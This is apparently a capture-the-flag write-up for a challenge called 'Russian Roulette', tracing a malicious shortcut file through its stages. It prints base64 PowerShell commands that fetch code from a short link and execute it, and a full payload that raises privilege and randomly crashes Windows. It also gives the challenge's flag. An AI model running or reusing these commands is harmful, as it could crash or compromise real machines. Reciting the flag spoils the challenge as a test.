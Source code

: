 # Russian Roulette

![image](https://github.com/user-attachments/assets/1f7046f6-250d-4a91-aee6-7cb5de7b8726)


Download: [russian_roulette.zip](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/russian_roulette.zip)

## My Solution

Within the zip file, we find a .lnk file which we read and see a base64 string:  

![image](https://github.com/user-attachments/assets/cdc7d24d-bad0-4f04-abbf-1f91604205a5)

Decoding that string shows us an Invoke-WebRequest made on a specific domain and file which is stored locally and executed.

```bash
echo aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=|base64 -d
```

![image](https://github.com/user-attachments/assets/4d349a5b-7dd8-4e27-883f-d68e5c663f49)

We use curl with the `-L` flag to follow redirects and try and see what this file is. 

![image](https://github.com/user-attachments/assets/0eb0e579-89a6-40e2-b3c4-d8d5f30734a1)

It starts with `cls` and `@echo off` commands so this tells us it's a batch script that clears the screens and disables echoing the commands in the terminal.

The lines starting with `::` are comments so we ignore those. I've saved the file locally and removed the `cls` and `echo off` because I want to see what it does.

![image](https://github.com/user-attachments/assets/cc757795-c212-462c-9439-2bfbcb7d342c)

I run it in my [CommandoVM](https://github.com/mandiant/commando-vm) and quickly notice this line which executes a base64 encoded powershell command.

![image](https://github.com/user-attachments/assets/ee255930-087c-4fd1-87ea-24ef4258e479)

We decode that string again and see another file being invoked:

```bash
echo aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==|base64 -d
```

![image](https://github.com/user-attachments/assets/213ba6a4-90d2-455b-8a35-7bcab86727b8)

We curl this one down as well and see powershell syntax:

![image](https://github.com/user-attachments/assets/6f23f72e-f598-4e9d-9189-b3442ac1823c)

```powershell
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;
public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);
[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);
NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);
byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");
byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");
byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';
$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';
$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"
```

Within this powershell syntax we can notice a `c`, a `k` and an `i` all having base64 encoded strings. Seeing the AES line below those, we can easily tell what these are:  

ciphertext: `RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw`  
key: `/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=`  
IV: `9sXGmK4q9LdYFdOp4TSsQw==`  


We put these in [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Base64','string':'%20/a1Y%2Bfspq/NwlcPwpaT3irY2hcEytktuH7LsY%2BNlLew%3D'%7D,%7B'option':'Base64','string':'9sXGmK4q9LdYFdOp4TSsQw%3D%3D'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=Uk5vOFRaNTZSditFeVpXNzNOb2NGT0lpTkZmTDQ1dFh3MjRVb2dHZEhrc3dlYS9XaG5OaENOd2pRbjFhV2pmdw) and get our flag:  

![image](https://github.com/user-attachments/assets/dfb05673-0dc7-42e9-9fe4-019819e74baa)

`flag{4e4f266d44717ff3af8bd92d292b79ec}`
